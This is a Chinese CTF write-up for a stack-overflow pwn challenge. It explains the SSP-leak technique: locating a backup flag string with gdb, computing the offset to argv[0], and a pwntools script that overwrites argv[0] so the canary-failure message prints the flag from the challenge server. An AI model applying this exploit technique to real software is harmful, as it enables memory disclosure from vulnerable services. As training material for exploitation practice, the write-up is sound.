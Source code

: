 get 存在明显的栈溢出漏洞，由于 Canary 保护机制，我们也不能通过暴力和泄露来解决，继续观察发现 byte\_600D20，点击发现：

```bash
.data:0000000000600D20 byte_600D20     db 50h                  ; DATA XREF: sub_4007E0+6E↑w
.data:0000000000600D21 aCtfHereSTheFla db 'CTF{Here',27h,'s the flag on server}',0
```

从提示中可以发现这并不是真正的 flag，真正的 flag 存储在远程服务器的这个地址上。

一种思路诞生：将 argv\[0\]覆盖成 flag 地址，通过 ssp leak 来泄露。

两个步骤：寻找 flag 的地址；寻找 argv\[0\]与栈指针的偏移量

程序后半部分需要我们在 byte\_600D20 这个地址上重写 flag，故这个地址不能使用。在一些小程序中，对于这些小文本会有备份，通过 gdb 进行查找：

\*\*peda 使用 find，pwndbg 使用 search

```bash
gdb-peda$ find CTF
Searching for 'CTF' in: None ranges
Found 5 results, display max 5 items:
   bin2 : 0x400d21 ("CTF{Here's the flag on server}")
   bin2 : 0x600d21 ("CTF{Here's the flag on server}")
```

发现 0x400d21 处也存放该字字符串。

寻找偏移量：在 main 前下断点

```bash
0000| 0x7fffffffddd8 --> 0x7ffff7a2e830 (<__libc_start_main+240>:   mov    edi,eax)
0008| 0x7fffffffdde0 --> 0x0 
0016| 0x7fffffffdde8 --> 0x7fffffffdeb8 --> 0x7fffffffe210 ("/home/qufeng/Desktop/CTF/pwn/stack/canary/bin2")
```

argv\[0\]的地址为 0x7fffffffdeb8

在 get 函数前设置断点，查看此时栈顶的值：

```bash
gdb-peda$ b *0x000000000040080E
Breakpoint 2 at 0x40080e

gdb-peda$ p $rsp
$4 = (void *) 0x7fffffffdca0

偏移量：0x7fffffffdeb8-0x7fffffffdca0=0x218
```

脚本如下：

```bash
# -*- coding:utf-8 -*-
from pwn import *

context(os='linux',arch='amd64',log_level='debug')

# p = process('./bin2')
p = remote('pwn.jarvisoj.com',9877)

flag_addr = 0x400d21
payload = 'a'*0x218 + p64(flag_addr)
p.sendlineafter('your name? ',payload)
p.recv()
p.sendline()
p.interactive()

或：
payload = p64(flag_addr)*200
```
